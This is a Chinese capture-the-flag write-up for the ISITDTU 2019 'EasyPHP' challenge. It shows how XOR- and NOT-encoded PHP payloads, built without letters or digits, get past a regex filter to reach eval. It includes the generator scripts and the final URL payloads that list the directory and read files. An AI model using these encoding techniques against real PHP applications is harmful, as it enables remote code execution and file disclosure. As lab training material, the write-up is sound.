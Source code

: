 # [ISITDTU 2019]EasyPHP

## 知识点

`无字母数字webshell`

## 解题

题目给出了源码

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

> count_chars($string, 0x3)返回一个去重的字符串(所有使用过的不同的字符)

要求所用字符小于`13`种，还有很多检测，说明这是`无字母数字webshell`

看一下过滤了哪些字符

[参考文章](https://www.shawroot.cc/1209.html)

```php
<?php

for ($i=0; $i < 128 ; $i++) { 
	if ( !preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', chr($i)) ) {
		echo chr($i);
	}
}
```

`!#%()*+-/:;<=>?@ABCHIJKLMNQRTUVWXYZ\]^abchijklmnqrtuvwxyz}~`

取反和异或没被过滤，测试一下`phpinfo()`

![](./img/[ISITDTU 2019]EasyPHP-1.png)

![](./img/[ISITDTU 2019]EasyPHP-2.png)

命令执行的函数都被禁用了,同时也限制了`open_basedir`在`/var/www/html`，使用`无参数rce`的`payload`

```php
print_r(scandir(.))
// 或者
print_r(glob('*.*'))
```

懒得改代码了 ，异或`php`脚本如下，[脚本](Scripts/xor_ff.php)，[参考文章](https://blog.csdn.net/weixin_45642610/article/details/119495242)

```php
<?php

#用不可见字符异或
$l = "";
$r = "";
//$argv = str_split("_GET");
$argv = str_split("phpinfo");
for($i=0;$i<count($argv);$i++)
{
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);
        if($k == $argv[$i]){
            if($j<16){
                $l .= "%ff";
                $r .= "%0" . dechex($j);
                continue;
            }
            $l .= "%ff";
            $r .= "%" . dechex($j);
            continue;
        }
    }
}
echo "(".$l."^".$r.")";
#{%ff%ff%ff%ff^%a0%b8%ba%ab}       =_GET
#?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
?>
```

获得的`print_r(scandir(.))`的取反内容为

```php
(%ff%ff%ff%ff%ff%ff%ff^%8f%8d%96%91%8b%a0%8d)	// print_r
(%ff%ff%ff%ff%ff%ff%ff^%8c%9c%9e%91%9b%96%8d)	// scandir
(%ff^%d1)		// .

(%ff%ff%ff%ff%ff%ff%ff^%8f%8d%96%91%8b%a0%8d)((%ff%ff%ff%ff%ff%ff%ff^%8c%9c%9e%91%9b%96%8d)((%ff^%d1)))	// print_r(scandir(.))
```

发现种类有`15`种,超过`13`种，就需要把`最少出现的字符`改为`较多出现的字符`来减少字符出现的数量，除了必要的`(` `)` `^`;以外，我们最多剩余`9`个字符的空间，逐步删除`result`里的值，当结果仍能保持`11`个，就意味着我们可以继续删除了。

 [当前代码](Scripts/xor_regex.py)

[参考代码出处](https://syunaht.com/p/2441275844.html)

```python
from collections import defaultdict


def get_mini_codes():
    """获取出现最少的url编码"""
    # 给定的字符串
    input_str = "(%ff%ff%ff%ff%ff%ff%ff^%8f%8d%96%91%8b%a0%8d)((%ff%ff%ff%ff%ff%ff%ff^%8c%9c%9e%91%9b%96%8d)((%ff^%d1)))"
    min_arr = []
    except_min_arr = []
    # 创建一个 defaultdict 以存储每个 URL 编码的计数
    url_encoding_counts = defaultdict(int)

    # 查找所有以 '%' 开头的两个字符的组合，并计数它们的出现次数
    for i in range(len(input_str) - 2):
        if (
            input_str[i] == "%"
            and input_str[i + 1].isalnum()
            and input_str[i + 2].isalnum()
        ):
            url_encoding = input_str[i : i + 3]
            url_encoding_counts[url_encoding] += 1

    min_count = min(url_encoding_counts.values())
    min_url_encodings = [
        encoding
        for encoding, count in url_encoding_counts.items()
        if count == min_count
    ]
    print(f"出现次数最少 (出现{min_count}次) 的编码为:")
    for encoding in min_url_encodings:
        print(f"{encoding} | ", end="")
        min_arr.append(encoding)
        
    except_min_url_encodings = [encoding for encoding, count in url_encoding_counts.items() if count != min_count]
    print("\n=============================\n出现次数除了最少之外的编码为:")
    for encoding in except_min_url_encodings:
        print(f"{encoding} | ", end="")
        except_min_arr.append(encoding)

    return min_arr, except_min_arr


def en(s):
    return '%' + hex(ord(s) ^ 0xFF)[2:]

from string import ascii_letters

def get_encoded():
        res = []

        p = list(ascii_letters)
        for i in p:
                for j in p:
                        for k in p:
                                for m in p:
                                        if ord(j) ^ ord(k) ^ ord(m) == ord(i):
                                                if j == k or j == m or m == k:
                                                        continue
                                                else:
                                                        # print(i + "==" + j + "^" + k + "^" + m, end="\t")
                                                        # print(
                                                        #     '{:0>2}  =>  ["{:0>2}","{:0>2}","{:0>2}"]'.format(
                                                        #         en(i), en(j), en(k), en(m)
                                                        #     )
                                                        # )
                                                        res.append([en(i), en(j), en(k), en(m)])
                                                        break

        return res


if __name__ == "__main__":
    mini_codes, except_mini_codes = get_mini_codes()
    all_codes = mini_codes + except_mini_codes
    coded = get_encoded()
    print("\n===================")
    for arr in coded:
        # print(arr)
        # if arr[0] in mini_codes and arr[1] in except_mini_codes and arr[2] in except_mini_codes and arr[3] in except_mini_codes:
        if arr[0] in all_codes and arr[1] in all_codes and arr[2] in all_codes and arr[3] in all_codes:
            print(f"{arr[0]} ==> {arr[1]}^{arr[2]}^{arr[3]}")
            all_codes.remove(arr[0])
```

用脚本替换半天还是不行，暂时先用别人的脚本了

```python
def tail(s):
    s = list(filter(None, s.split('^')[0].strip('()').split('%')))
    p = ['ff']*len(s)
    return [p, p]


def head(s):
    s = list(filter(None, s.split('^')[0].strip('()').split('%')))
    return s


def add(l):
    s = ''
    for i in l:
        s += '%'+i
    return s


s = '(%8f%8d%96%91%8b%a0%8d)^(%ff%ff%ff%ff%ff%ff%ff)'
l = head(s)
p = tail(s)
to_fix_list = ['8b', '91', '8d']
to_replace = [["8c", "9b", "9c"], ["96", "9c", "9b"], ["9e", "9c", "8f"]]
for t, to_fix in enumerate(to_fix_list):
    for n, i in enumerate(l):
        if to_fix == i:
            s = s.replace(to_fix, to_replace[t][0], 1)
            p[0][n] = to_replace[t][1]
            p[1][n] = to_replace[t][2]

print("{}^({})^({})".format(s, add(p[0]), add(p[1])))
```

```
print_r=((%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%9c%ff%9c%9c%ff%9c)^(%ff%8f%ff%9b%9b%ff%8f))

scandir=((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%96%9b%96%9e)^(%ff%ff%ff%9c%ff%ff%9c)^(%ff%ff%ff%9b%ff%ff%8f))
```

```
?_=((%8f%9e%96%96%8c%a0%9e)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%9c%ff%9c%9c%ff%9c)^(%ff%8f%ff%9b%9b%ff%8f))(((%ff%ff%ff%ff%ff%ff%ff)^(%8c%9c%9e%96%9b%96%9e)^(%ff%ff%ff%9c%ff%ff%9c)^(%ff%ff%ff%9b%ff%ff%8f))((%d1)^(%ff)));
```

读flag，用`end()`代替数组选择。

```php
show_source(end(scandir(.)));
```

```
?_=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```





[参考文章1](https://blog.csdn.net/mochu7777777/article/details/105786114)

[参考文章2](https://syunaht.com/p/2441275844.html)